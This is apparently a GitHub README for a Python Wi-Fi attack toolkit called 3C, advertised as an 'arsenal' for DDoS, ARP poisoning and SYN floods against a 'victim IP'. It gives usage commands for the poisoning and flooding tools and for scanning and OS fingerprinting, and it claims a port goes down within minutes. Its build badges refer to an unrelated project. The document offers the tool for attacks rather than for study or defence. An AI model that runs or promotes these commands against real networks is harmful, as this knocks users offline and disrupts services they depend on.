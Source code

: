 
<img src="https://github.com/PyDever/AirCat/blob/master/img/3c%20(1).png" width="250">

 [![Build status](https://ci.appveyor.com/api/projects/status/pjxh5g91jpbh7t84?svg=true)](https://ci.appveyor.com/project/tygerbytes/resourcefitness) 
[![Coveralls](https://coveralls.io/repos/github/tygerbytes/ResourceFitness/badge.svg?branch=master)](https://coveralls.io/github/tygerbytes/ResourceFitness?branch=master) 
[![License](https://img.shields.io/badge/License-BSD%202--Clause-orange.svg)](https://opensource.org/licenses/BSD-2-Clause)
<br>

3C gives you an arsenal of Wi-Fi tools to perform DDoS, ARP poisons, and more. 
```
$ python scan -r <IP range>
```
```
$ python poison -t <victim IP> -m <victim MAC>
```
<hr>

***New feature!*** (v2.0 update)
3C can now perform SYN flood DDoS attacks.
```
$ python flood -t <victim IP> -p <port> -l <payload>
```
It will take out a port in about 3-5 minutes. It is not 
multi-threaded yet.

***New feature!*** (v2.2 update)
3C can now access some basic Nmap functionality.
```
# from inside 3C folder
import libnmap

libnmap.ARP_dis() # discover hosts 

# run OS-fingerprinting nmap SYN scan
libnmap.SYN_scan(ports=<port range>, host=<target IP>, 
    os_det=True, ttl=20, src='0.0.0.0')
```
On rooted mobile devices, run this for scan:
```
# run OS-fingerprinting nmap CONN scan
libnmap.CONN_scan(ports=<port range>, host=<target IP>)
```

## Installation 
Make sure to have `scapy` fully installed and tested.
```
$ git clone <this repo>
```

### ARP Poison Explanation
3C injects your access point with venomous ARP packets that kick the victim offline. 
```
                         (no connection)
You -----[3C_pkt]-----> AP -----X-----> victim
```

